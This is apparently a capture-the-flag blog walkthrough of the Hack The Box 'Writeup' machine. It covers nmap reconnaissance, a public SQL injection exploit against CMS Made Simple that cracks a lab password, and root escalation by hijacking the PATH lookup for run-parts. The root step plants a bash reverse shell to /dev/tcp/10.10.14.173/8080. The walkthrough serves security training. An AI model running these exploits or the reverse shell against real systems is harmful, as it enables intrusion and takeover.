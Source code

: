```yaml
---
title: "Hackthebox Writeup Walkthrough"
date: 2021-07.04 21.00 
categories: [Hackthebox, Linux]
tags: [abusing path variable,SQLi]
author: CEngover
image: /assets/img/posts/writeup/writeup.png
---
```

Hello everyone. In this article, I'm going to try to explain writeup box solution which is one of the free hackthebox machines.

## Reconnaissance
Let's start with enumeration process. I added machine's ip into my hosts file. If you want to add too, you can add ip with `sudo echo "10.10.10.138     writeup.htb" >> /etc/hosts` easly.

After this small step, let's do a nmap scanning.

```
cengover@kali:~/htb/writeup$ sudo nmap -sC -sV -oA nmap/writeup-open-ports 10.10.10.138
[sudo] password for cengover: 
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-04 12:32 EDT
Nmap scan report for 10.10.10.138
Host is up (0.093s latency).
Not shown: 998 filtered ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey: 
|   2048 dd:53:10:70:0b:d0:47:0a:e2:7e:4a:b6:42:98:23:c7 (RSA)
|   256 37:2e:14:68:ae:b9:c2:34:2b:6e:d9:92:bc:bf:bd:28 (ECDSA)
|_  256 93:ea:a8:40:42:c1:a8:33:85:b3:56:00:62:1c:a0:ab (ED25519)
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
| http-robots.txt: 1 disallowed entry 
|_/writeup/
|_http-title: Nothing here yet.
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

As seen in the above, we have 2 ports open. They're running ssh and http services. We cannot do directory fuzzing because the machine is banning us for a while. Let's continue with manuel enumeration. We can check that is there a `robots.txt, admin.php, login.php` etc. We can get some information by visiting robots.txt file and it says that there is also folder named `/writeup`.

```bash
#              __
#      _(\    |@@|
#     (__/\__ \--/ __
#        \___|----|  |   __
#            \ }{ /\ )_ / _\
#            /\__/\ \__O (__
#           (--/\--)    \__/
#           _)(  )(_
#          `---''---`

# Disallow access to the blog until content is finished.
User-agent: * 
Disallow: /writeup/
```

![Writeup index page](/assets/img/posts/writeup/writeup_index.png)

After checking source code of the index page, we found that this page was built by CMS Made Simple. 

```bash
<meta name="Generator" content="CMS Made Simple - Copyright (C) 2004-2019. All rights reserved." />
```

## Getting Initial Access

We can try to search a exploit that belongs to this cms. After a little bit searching, I found  a sqli exploit. Once we run this exploit, we'll get following informations.

```bash
cengover@kali:~/htb/writeup$ python3 46635.py -u http://writeup.htb/writeup/ --crack -w /usr/share/wordlists/rockyou.txt
[+] Salt for password found: 5a599ef579066807  
[+] Username found: jkr  
[+] Email found: jkr@writeup.htb  
[+] Password found: 62def4866937f08cc13bab43bb14e6f7  
[+] Password cracked: raykayjay9
```

After cracking the password, we can get initial access with this creds.

![Getting User](/assets/img/posts/writeup/getting_user.png)

I ran pspy tool for monitoring the processes. I saw that after every succesfull login the following commands are running.

```bash
2021/07/04 13:47:12 CMD: UID=0    PID=24398  | sshd: [accepted]
2021/07/04 13:47:12 CMD: UID=0    PID=24399  | sshd: [accepted]  
2021/07/04 13:47:24 CMD: UID=0    PID=24400  | sshd: jkr [priv]  
2021/07/04 13:47:24 CMD: UID=0    PID=24401  | sh -c /usr/bin/env -i PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin run-parts --lsbsysinit /etc/update-motd.d > /run/motd.dynamic.new 
2021/07/04 13:47:24 CMD: UID=0    PID=24402  | run-parts --lsbsysinit /etc/update-motd.d 
2021/07/04 13:47:24 CMD: UID=0    PID=24403  | uname -rnsom 
2021/07/04 13:47:24 CMD: UID=0    PID=24404  | sshd: jkr [priv]  
```

Let's see where run-parts command is located.

```bash
jkr@writeup:~$ which run-parts
/bin/run-parts
```

It's in `bin` folder so the folder is last folder in path search order which means if we can inject a custom run-parts command one of these path, our command can be triggered. Let's see what we can do. First of all, check these paths permissions.

```bash
jkr@writeup:~$ ls -ld /usr/local/sbin /usr/local/bin /usr/sbin /usr/bin /sbin /bin
drwxr-xr-x 2 root root   4096 Apr 19  2019 /bin
drwxr-xr-x 2 root root   4096 Aug 23  2019 /sbin
drwxr-xr-x 2 root root  20480 Aug 23  2019 /usr/bin
drwx-wsr-x 2 root staff 20480 Apr 19  2019 /usr/local/bin
drwx-wsr-x 2 root staff 12288 Apr 19  2019 /usr/local/sbin
drwxr-xr-x 2 root root   4096 Aug 23  2019 /usr/sbin
jkr@writeup:~$ id
uid=1000(jkr) gid=1000(jkr) groups=1000(jkr),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),50(staff),103(netdev)
jkr@writeup:~$ 
```

As seen in the above `jkr` is member of staff group and this group has privileges on `/usr/local/bin` and `/usr/local/sbin` directories. We can create a reverse shell named run-parts and put it to one of these directories. 

```bash
jkr@writeup:/usr/local/bin$ nano run-parts
jkr@writeup:/usr/local/bin$ cat run-parts
#!/bin/bash
bash -i >& /dev/tcp/10.10.14.173/8080 0>&1
jkr@writeup:/usr/local/bin$ chmod +x run-parts
jkr@writeup:/usr/local/bin$ which run-parts
/usr/local/bin/run-parts

```


![Getting Root](/assets/img/posts/writeup/getting_root.png)

Firstly, we need to set a listener by running this command `nc -lvnp 8080`. After creating new ssh session, we have to get a root shell on the box.

